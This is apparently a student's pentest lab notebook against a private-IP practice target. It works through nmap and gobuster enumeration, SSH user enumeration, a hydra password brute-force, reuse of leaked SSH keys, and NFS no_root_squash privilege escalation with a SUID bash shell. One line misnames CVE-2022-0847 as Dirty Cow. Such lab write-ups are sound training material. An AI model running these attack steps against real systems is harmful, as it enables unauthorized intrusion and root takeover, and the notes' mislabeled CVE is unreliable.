

## Enumeration 
### nmap 
1. fastscan
nmap -p- --max-retries 1 -sS -Pn -n 172.31.199.185 -oA fastscan
  `--min-rate 3000/2000` I did, but result is not good
2. topports
nmap --top-ports 1000 -sS -Pn -n 172.31.199.185 -oA topports
3. detailed
nmap -p 22,80,111,2049,2222 -sV -sC -Pn -n 172.31.199.185 -oA detailed


## Vulns assessment
### SSH 8.9p1
- 80
script
  method : key only 

- 2222 openssh 7.6(protocol 2.0)
  it's less than 7.7 > user enumeration
    > if I get some userlists later on 
script
  method : key, password

### HTTP apache 2.4.52
script
  http-enum
  /logs/
  /css
  /img
  /js
  /uploads

  vuln
    sqli
  
  exploit
    X

known vuln
  it's only when the web application is tomcat or something 


what do you do
design and IT tech 
design and making app 
test server?
function: team members >  username.txt
  John Doe
  Mark lores
  Thomas Lere
  Grintel Mark
    Do I have to split them?
    jdoe this is more probable. 
    lowercase, split
    

Ctrl+U 
annotation 


#### dir brutefocing
1. simple
gobuster dir -u http://172.31.199.185/ -w /usr/share/dirb/wordlists/common.txt -t 20 -o simple -f
  fonts
  css
  icons
  js
  uploads
  >logs
    check soon 
    git in vscode
    2.34.1

    workbench , .vscode, vscode.git
      I think develop environment
    

with file extension
gobuster dir -u http://172.31.199.185/ -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,html,txt -o file
- [+] try non`-f`version when you're looking for extensions
  /upload.php 
    php not working due to Mime type =HTML
  readme.txt
    Bootstrap 3.3.1 
      XSS in js
      I don't think it's vuln
  index.php
    mime type text even though its extension is php> that's why source code are shown  

2. detailed
gobuster dir -u http://172.31.199.185/ -w /usr/share/dirbuster/wordlists/small -t 20 -o detailed -f
  Upper cases
  /User
  these are automatically created at once s 
    Jo92.sh > get creds
    commands shell scripts 
    ufw = firewall 
    
    **Linux Kernel 5.8 - vulnerable to CVE-2022-0847 Dirty Cow**
    Users groot and choi
  /Dictionaries/
    en-GB 
      strings
      idk too many lines

  /Cache/
    idk 
#### Jo92.sh
I think setup 

Create Users groot and choi
sudo useradd jdoe
sudo useradd mlores
sudo passwd jdoe <<< "jdoe123!@#"
sudo passwd mlores <<< "mlores!@#"

  can ssh validuser enumeration  

sudo -u choi ssh-keygen -t rsa -b 2048
cp /home/choi/.ssh/id_rsa /home/groot/.ssh/choi_private_key


#### Jo92.sh
I think setup 

Create Users groot and choi
sudo useradd jdoe
sudo useradd mlores
sudo passwd jdoe <<< "jdoe123!@#"
sudo passwd mlores <<< "mlores!@#"

  can ssh validuser enumeration  

sudo -u choi ssh-keygen -t rsa -b 2048
cp /home/choi/.ssh/id_rsa /home/groot/.ssh/choi_private_key


#### Ro.sh
sudo useradd groot
sudo useradd choi
sudo passwd groot <<< "raccoon"
sudo passwd choi <<< "raccoon"


sudo ufw allow 2222
sudo ufw allow 80
sudo ufw enable
  just open


#### be.sh
```
sudo -u jdoe ssh-keygen -t rsa -b 2048
sudo cp /home/jdoe/.ssh/id_rsa /home/mlores/.ssh/jdoe_private_key

```

#### cuy.sh


file:///home/msbot/kernal/build.sh ?


- /globalstorage
  get sqlite
    x 
backup  path:
/var/www/html/Backups/8faeb6427555704b95e59477d4a99399
  
- workspacestorage
  x


with file extension
gobuster dir -u http://172.31.199.185/ -w /usr/share/dirbuster/wordlists/small -t 20 -x php,html,txt -o detailed_file -f 
  /Cookies
    sqlite database > sqlitebrowser & > open database > print to see overall structure
      idk what it is, no data 
  /Preferences

later
  `-x bak,bac,zip,back,backup,docs,xlxs,git`

- [+] try non`-f`version when you're looking for extensions


#### User enum
py how does it work
python2 .py 172.31.199.185 --userList username.txt --port 2222 --outputFile sshenum.output
python2 based
  you need to read the python code for trouble-shooting

    if you're stuck to do that, you can consider another way. maybe there's something else  

### NFS
- you can mount target's specific dir (if the nfs-server set the mount on /etc/exports)and 
  - and you need to find if there's NO_ROOT_SQUASH or NO_ALL_SQUASH misconfiguration(because nfs version is not shown) 
2049
with 111 rpc bind : metadata of ports
script
  rpc info
  -p 111,2049
  try many times


  ls 
    not working 

network file sevice

or mount 
mount :/mnt/test 

misconfiguration
  NO_ROOT_SQUASH 
    can read/write as root = you can upload anything as root > set SUID to binary file (it's not worked for shell script or python script) 
    HOST : 
    `cp /bin/bash .`
    `chmod +s /bin/bash`
    TARGET: 
    `./bash -p`  


showmount -e 172.31.199.185
  not workign 

to use mount, 
cd /mnt/test
sudo mount 172.31.199.185:/public-nfs 


- which directories are exposed by default?
sudo apt install nfs-kernel-server
cat /etc/exports
when apply 
cd /scratch
sudo exportfs -a 

cd /mnt/newjeans 

- /etc/fstab 
```
localhost:/home/kail/mount /mnt/newjeans nfs rsize=8192,wsize=8192,timeo=14,intr
```
or
- sudo mount localhost:/home/kail/mount /mnt/newjeans

learn about
need to python2 and import/install module 

if you feel sleepy, do simple no thinking  

hydra -L username.txt -P password.txt ssh://172.31.186.85 -s 2222 -V -f 
  mlores:mlores!@#
ssh mlores@172.31.186.85 -p 2222  

  need to escalate privilege or gather 

  jdoe_key
  ssh -i jdoe_key jdoe@172.31.186.85
  no need to put phrasskey
  jdoe123!@#
  there's no groot and choi?


  authorized_keys=jdoe_key.pub


dpkg --list
of course nfs-kerne-server is installed on the target host


umount = unmount


## Exploitation and Initial access

## Post exploitation and Privilege escalation


NFS 
cat /etc/exports  : nfs config
/home/jdoe 
no_root_squash

so this is server and
go to the host - /mnt/test and 
sudo mount 172.31.186.85:/home/jdoe /mnt/test  
sudo mount 172.31.186.85:/home/jdoe /mnt/test/1234?
  if you don't see the dir, cd .. and get back.

python3 script and SUID? 
  chmod +s .py
  no I think sudo python3 means need to set SUID on python binary. that doesn't make sense. 
    but I'm wondering how about 4777? and 
    no it's not `sudo ` just when you execute without sudo command you're at root  

    sh shell script
      no it's not working
chown - add them into group ?


so I can write at /home/jdoe 
upload 
and I can command sudo at /home/jdoe 
sudo shell execute 


because only put SUID on binary file. 
/bin/bash
.sh shell file is not working as execute


how about another file? or what if TARGET: cp /bin/bash . ?
 > if you wanna set SUID, the owner needs to be root. and set SUID.
 python -c 'import os; os.system("/bin/sh")'
  - python version needs to be same for compatibility  > copy target's python 
  - ./python3 normal shell doesn't work 
  ./bash -p
  ./python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'


what's the difference no_all_squash, no_root_squash


the thing is I can make any file as root
and root can anything. 
crontab is good but
cd 


>why did I not do mount before?

and I have to mount to /home/jdoe necessarily right?
  yes

and what if I mount not at /mnt? /tmp?
  I can mount anywhere on host dir, /mnt is just like simbolic meaning 


## Review & Remind
1. team members > make custom list with format of first letter+lastname 
  is there any custom username generator?
2. dirbrute forcing > log ? > valid usersname creds in set-up shell? (there were useless - do I check them all?)
3. username and passwords > hydra ssh dir bruteforcing on port 2222>  mlores users password available
4. mlores > .ssh private key of jdoe user > ssh -i key on port 22
5. linpeas.sh > NFS no_root_squash (low version of NFS? maybe): check /etc/exportfs : NFS config  
  /home/jdoe can be mounted to outside
  KALI on /mnt/test: sudo mount TARGETIP:/home/jdoe /mnt/test
  go back to parent dir and come back again
  I have write as root = I can upload anything as root
  set SUID, but only binary file works 
    cp /bin/bash . or /usr/bin/python3(but go for it with Target's version) possible
  ./bash -p > root got